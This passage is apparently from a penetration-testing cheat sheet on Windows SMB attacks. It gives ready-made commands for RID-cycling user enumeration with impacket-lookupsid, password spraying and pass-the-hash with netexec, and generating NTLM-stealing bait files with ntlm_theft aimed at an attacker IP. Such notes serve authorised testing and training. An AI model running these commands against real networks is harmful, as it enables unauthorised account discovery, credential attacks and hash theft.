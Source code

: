 RID enumeration.  
It attempts to enumerate user accounts through null sessions.

```sh
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000
# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

<br />

## Password Spraying Attack

If we have a user password, we might be able to find another user with the same password.

```bash
# User enumeration
netexec smb <target-ip> -u John -p Password123 --users
netexec smb <target-ip> -u John -H <NTLM_HASH> --users

# Find users with same password
netexec smb <target-ip> -u users.txt -p Password123 --continue-on-success
netexec smb <target-ip> -u users.txt -p found_passwords.txt --continue-on-success
netexec smb <target-ip> -u users.txt -H <NTLM_HASH> --continue-on-success
netexec smb <target-ip> -u users.txt -H found_ntlm_hashes.txt --continue-on-success
```

<br />

## NTLM Stealing

### Using ntlm_theft

Repository: [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

```bash
# -g all: Generate all files.
# -s: Local IP (attacker IP)
# -f: Folder to store generated files.
python3 ntlm_theft -g all -s <local-ip> -f samples
```
